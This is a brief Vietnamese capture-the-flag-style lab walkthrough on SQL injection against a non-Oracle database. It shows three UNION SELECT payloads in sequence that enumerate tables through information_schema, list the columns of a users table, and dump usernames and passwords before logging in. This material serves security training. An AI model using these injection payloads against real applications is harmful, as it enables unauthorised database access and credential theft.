 # SQL injection attack, listing the database contents on non-Oracle databases

Như thường lệ ta check xem có bao nhiêu cột và kiểu dữ liệu trong cột đó là gì, làm như những bài trước thì ta thấy có 2 cột và kiểu dữ liệu string.

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables --` để xem tên các bảng trong database, tiếp theo ta tìm bảng có tên liên quan tới `Users` và tìm được bảng có tên `users_avnkam`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134664576068231250/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_avnkam'--` để liệt kê ra tên các cột trong bảng `users_avnkam`.

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134665511142174741/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT username_llrhfz, password_qvhlts FROM users_avnkam--` để hiển thị ra thông tin bên trong 2 cột của bảng `users_avnkam`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134666106439733248/image.png)

Giờ thì đăng nhập và hoàn thành bài lab thôi.
